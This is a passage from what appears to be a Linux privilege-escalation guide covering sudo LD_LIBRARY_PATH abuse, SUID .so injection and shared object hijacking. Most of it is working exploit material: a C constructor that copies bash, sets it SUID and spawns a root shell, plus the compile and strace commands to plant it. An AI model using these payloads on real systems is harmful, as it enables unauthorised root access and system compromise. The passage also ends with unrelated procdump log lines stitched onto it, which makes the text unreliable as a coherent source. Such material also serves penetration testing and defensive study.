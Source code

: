 ```bash
# Compile & execute
cd /tmp
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <COMMAND>
```

### SUID Binary – .so injection

When encountering a binary with **SUID** permissions that seems unusual, it's a good practice to verify if it's loading **.so** files properly. This can be checked by running the following command:

```bash
strace <SUID-BINARY> 2>&1 | grep -i -E "open|access|no such file"
```

For instance, encountering an error like _"open(“/path/to/.config/libcalc.so”, O_RDONLY) = -1 ENOENT (No such file or directory)"_ suggests a potential for exploitation.

To exploit this, one would proceed by creating a C file, say _"/path/to/.config/libcalc.c"_, containing the following code:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

This code, once compiled and executed, aims to elevate privileges by manipulating file permissions and executing a shell with elevated privileges.

Compile the above C file into a shared object (.so) file with:

```bash
gcc -shared -o /path/to/.config/libcalc.so -fPIC /path/to/.config/libcalc.c
```

Finally, running the affected SUID binary should trigger the exploit, allowing for potential system compromise.

## Shared Object Hijacking

```bash
# Lets find a SUID using a non-standard library
ldd some_suid
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d payroll  | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714